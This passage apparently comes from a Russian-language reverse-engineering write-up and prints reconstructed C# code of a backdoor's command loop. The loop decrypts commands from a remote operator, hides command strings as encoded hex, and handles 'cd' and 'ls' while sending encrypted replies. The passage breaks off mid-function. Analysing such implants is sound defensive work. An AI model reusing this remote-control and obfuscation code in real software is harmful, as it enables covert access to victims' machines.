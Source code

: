 Восстановленный код функции **GetCommand()**:
```cs
private static void GetCommand()
{
    string strReceived;
    string[] strArraySplit;
    int intSizeArraySplit;

    while (true)
    {
        while (true)
        {
            while (true)
            {
                while (true)
                {
                    strReceived = myEC.ReceiveDecrypted();

                    // string strnPipe = "|";
                    string strEncPipe = "59";
                    string strPipe = myEC.DecodeEncryptData(strEncPipe);

                    strArraySplit = strReceived.Split(strPipe);
                    intSizeArraySplit = strArraySplit.Length;
                    if (intSizeArraySplit == 0)
                    {
                        throw new BadImageFormatException();
                    }

                    // string strCD = "cd";
                    string strEncCD = "4662";
                    string strCD = myEC.DecodeEncryptData(strEncCD);
                    if (!strArraySplit[0].Equals(strCD))
                    {
                        break;
                    }

                    if (intSizeArraySplit <= 1)
                    {
                        throw new BadImageFormatException();
                    }

                    Directory.SetCurrentDirectory(strArraySplit[1]);

                    // string strOK = "ok";
                    string strEncOK = "4a6d";
                    string strOK = myEC.DecodeEncryptData(strEncOK);

                    SendAndEncrypt(strOK);
                }

                // string strLS = "ls";
                string strEncLS = "4975";
                string strLS = myEC.DecodeEncryptData(strEncLS);
                if (!strArraySplit[0].Equals(strLS))
                {
                    break;
                }
                StringBuilder sbDirsFiles = new StringBuilder();

                // string strEncSeparatorDirs = "=== dirs ===";
                string strEncHeaderDirs = "183b4edc950b6dcb5d43b609";
                string strHeaderDirs = myEC.DecodeEncryptData(strEncHeaderDirs);
                sbDirsFiles.Append(strHeaderDirs);
```